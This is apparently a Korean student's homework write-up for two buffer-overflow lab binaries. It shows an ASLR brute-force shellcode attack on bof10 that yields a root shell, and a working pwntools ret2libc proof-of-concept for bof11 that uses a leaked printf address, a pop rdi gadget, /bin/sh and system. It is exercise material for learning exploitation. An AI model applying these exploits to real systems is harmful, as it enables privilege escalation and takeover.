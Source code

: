 # hw9

## bof10

 현재 ASLR의 상태를 확인해본다.
 
 -> sysctl -a|grep -E"exec-|randomi"
 or cat /proc/sys/kernel/randomize_va_space
 
 ![](https://postfiles.pstatic.net/MjAxOTA3MTlfNTAg/MDAxNTYzNDcxOTc0MTQz.Pjh3q6oNi-f5usXOVJ3GPgwAFfFL0Ivg2cuAEvZK_MAg.LdbEClASQFmpJxviCu7UR7qAHY-3yYOigd8-XTOFqEsg.PNG.potenpanda/image.png?type=w773)
 
 2로되어있는것을 확인할 수 있으니 ASLR 우회를 해야한다.
 
 우선 bof10은 bof8처럼 NX bit는 걸려있지 않으므로 스택에 실행권한이 있다.
 따라서 쉘코드를 삽입해 익스플로잇 한다.
 
 마찬가지로 nop슬레이드를 타고 shellcode의 위치에 도달해야하는데, ASLR로인해 쉘코드의 주소값이 계속 바뀌므로
 brute force로 때려박아야한다.
 
    ```
    pwndbg> p/d 0xffffd5ec-0xffffd5d8
    $14 = 20
    ```
    

 
 while -> 버퍼까지의 길이 20 + 환경변수의 주소값
 
 SHELLCODE(뭔지모르겠음)
 
   ``` export SHELLCODE=`python -c "print '\x90'*10 +  '\xeb\x12\x31\xc9 ... '"````
    
 그리고 최종적으로 brute force를 위한 shell script를 작성한다. *(아무거나 막쳤음. do 다음에 ; 넣으면안됌)*
 
 
     `while : ; do  ./bof10 `python -c "print 'X'*20 + '\x45\x25\x95\xff'"` ; done`
     
 실행결과
 
 ![] (https://postfiles.pstatic.net/MjAxOTA3MTlfNTAg/MDAxNTYzNDc1MTgzMDk3.wWJmQoO8Oc2tIAa7i6_076TFjzz_7e7owfvwgV03xOwg.5YXd2tJVdPhz6YmjVVtCurfzSgMvQ5j9GbAzS7EX0d0g.PNG.potenpanda/image.png?type=w773)
 
 **오랜 세월이 지나고 root shell 탈취에 성공했다.**
 
 
## bof11
 
 bof11은 bof9와 마찬가지로 stack에 실행권한이 없지만, ASLR기법까지 적용되어 있다. 따라서 고정된 주소값을 통해 RTL을 하지 못하고
 상대적인 값을 구해야 하는게 차이점이다. 나머지는 동일.
 
 그렇다면 페이로드는 동일하게
 
     쓰레기값 + pop rdi; ret의 가젯 + /bin/sh + system -> 144byte 로 구성된다.
     
 여기서의 핵심은 파일을 실행할 시 유출되는 printf의 주소값들을 통해서 변하지 않는 고정적인 ***길이*** 를 구하는 것이다. 
 
 (libc 전체 덩어리의 함수 위치들은 고정적이라서 가능한 것 같다.)
 
 그렇다면 구해야할 것은 동일하다. gdb 안에서
 
 **system 주소값, /bin/sh, pop rdi ; ret 가젯을 구해서 각각에서 printf의 주소값을 빼주면 된다.**
 
 **system**
 
 ![](https://postfiles.pstatic.net/MjAxOTA3MTlfMTk2/MDAxNTYzNDc3MDE1ODc3.xMWu3iJXkfcuoFZeWEuEQ4SOGXhzGaEkAaIMKH3s54wg.WM-6RKKIPxpWRgI_Auz_s0gLjV9ih85wncUdUB5ecJUg.PNG.potenpanda/image.png?type=w773)
 
 system - printf를 한 결과 -66672
 
 **/bin/sh**
 
 ![](https://postfiles.pstatic.net/MjAxOTA3MTlfMjQ4/MDAxNTYzNDc3MTEzNTk0.Yz8wzg8cHsWoxSPqWepPr2plSxZNLPtlFJ2iBxQV-6Yg.TMq0oKxJn0K5ocZaK7UXBMmI9IFCc3E9JySlb9is9ikg.PNG.potenpanda/image.png?type=w773)
 
 /bin/sh - printf를 한 결과 1275223
 
 **pop rdi; ret**
 
 ![](https://postfiles.pstatic.net/MjAxOTA3MTlfMjky/MDAxNTYzNDc3MjgxODg0.2GIVHL5YTBnmskDGujU02j9lLy9-7hUhWPrp8nq4wwsg.wQnS-I5idCqrCEn8AtJSRQNmK4ShdLHrLT9z-KxYDhMg.PNG.potenpanda/image.png?type=w773)
 
 ![](https://postfiles.pstatic.net/MjAxOTA3MTlfMTk5/MDAxNTYzNDc3NDU3MTg5.7UU4WDs5Vn0dcb3VMf55gUps7JFOz5tdnNjYY25FuXIg.f-tk4lU1YmqudhHhZp4a16mNUtcdVHiiK4lsR5jZ-cwg.PNG.potenpanda/image.png?type=w773)
 
 오프셋을 구하고 libc의 주소에 더해준 뒤 printf의 주소를 뺀다 -> -214782
 
 
 이제 모두 구했다. 위에서 언급했던 페이로드를 적용시킨 **pwntool** 을 이용한 poc코드를 작성한다.
 
     ```
     from pwn import *

     p = process('./bof11')

     p.recvuntil('printf() address : ')
     printf_addr = p.recvuntil('\n')
     printf_addr = int(printf_addr, 16)
     
     sys_addr = printf_addr + (-66672)
     binsh = printf_addr + (1275223)
     poprdi = printf_addr + (-214782)
     distance_to_returnAddr = 24
     
     exploit = "A" * distance_to_returnAddr
     exploit += p64(poprdi)
     exploit += p64(binsh)
     exploit += p64(sys_addr)
     p.send(exploit)
     
     p.interactive()
     ```
 *code by 찬솔님*
 
 ![](https://postfiles.pstatic.net/MjAxOTA3MTlfMjU0/MDAxNTYzNDc3NzgxMTEz.3u-ZJMUThqzfn8p8SW9vMg0RUp0e-_0yR7fqOnE7sxog.ixAdB3zkZezT4koNE5XbubOwwWV_45oroSFQI9tC-9cg.PNG.potenpanda/image.png?type=w773)
 
 done.
 
 